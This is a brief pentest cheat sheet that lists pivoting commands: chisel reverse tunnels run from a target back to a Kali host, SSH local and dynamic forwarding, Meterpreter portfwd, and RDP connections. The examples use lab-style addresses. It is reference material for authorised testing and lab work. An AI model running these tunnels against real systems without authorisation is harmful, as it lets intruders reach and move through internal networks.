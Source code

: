 
### Chisel
```
#at kali machine
chisel server --port 445 --reverse
#at target machine
cmd /c chisel.exe <serverIP:port> R:<kali port to forward to>:127.0.0.1:<local port to forward>
chisel.exe client $KaliIP:445 R:1433:127.0.0.1:1433
```
### Forward RDP from internal host to Attacking Machine on port 1337.
ssh -L <LocalHost>:<Port>:<IP-To-Forward-From>:<Port> <User>@<IP>
ssh -L 127.0.0.1:1337:10.200.48.150:3389 root@10.200.48.200 -i id_rsa

### Forward remote port 80 to local port 80.
ssh atena@10.10.72.69 -L 80:127.0.0.1:80
ssh <User>@<IP> -L <Local-Port>127.0.0.1<Remote-Port>

### Dynamic SSH Port Forwarding
ssh -i <id_rsa> <User>@<IP> -D <Proxychains-Port>
ssh -i id_rsa errorcauser@10.10.254.201 -D 1080

Meterpreter port forward 
```
portfwd add -l <LocalPort> -p <RemotePort> -r <TargetIP>
portfwd add -l 3333 -p 3389 -r 10.10.10.5
Essentially as per the example command above we could connect to RDP on our local port in order to hit the remote port.
```

```
rdesktop 127.0.0.1:3333
```

xFreeRDP
```
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

## PORTS:
https://viperone.gitbook.io/pentest-everything/everything/ports
